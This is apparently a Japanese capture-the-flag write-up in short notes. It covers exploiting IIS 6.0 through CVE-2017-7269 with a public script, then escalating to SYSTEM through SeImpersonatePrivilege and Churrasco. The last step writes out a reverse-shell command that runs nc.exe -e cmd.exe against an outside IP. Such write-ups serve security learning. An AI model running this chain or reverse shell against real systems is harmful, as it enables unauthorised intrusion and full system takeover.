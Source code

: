 # Enumeration
- port 80 で `Microsoft IIS httpd 6.0` が動いている
  - ぐぐると CVE-2017-7269 に対し脆弱
  - https://www.exploit-db.com/exploits/41738

# Exploit
- https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269 からスクリプトをもらう
  - 適切な引数を指定し実行 

# Privesc
- いろいろファイルを置きたいので書き込み可能ディレクトリを探す
  - `C:\wmpub` は見かけないディレクトリであり書き込み可能
- Windows Exploit Suggester をする
  - どれも通らない
- `whoami /privs` で自身の権限を確認
  ```
  PRIVILEGES INFORMATION
  ----------------------

  Privilege Name                Description                               State   
  ============================= ========================================= ========
  SeAuditPrivilege              Generate security audits                  Disabled
  SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
  SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
  SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
  SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
  SeCreateGlobalPrivilege       Create global objects                     Enabled
  ```
  - `SEImpersonalPrivilege` がある場合、windows server 2003 では `churrasco` が、それ以上の場合は `potato` が使える
  - https://github.com/Re4son/Churrasco/
  - https://medium.com/r3d-buck3t/impersonating-privileges-with-juicy-potato-e5896b20d505
- Churrasco を使う
  - `C:\wmpub\` に `nc.exe` と `Churrasco.exe` を置く
  - その後 `.\Churrasco.exe -d "C:\wmpub\nc.exe -e cmd.exe 10.10.14.23 12346"` で SYSTEM 権限獲得

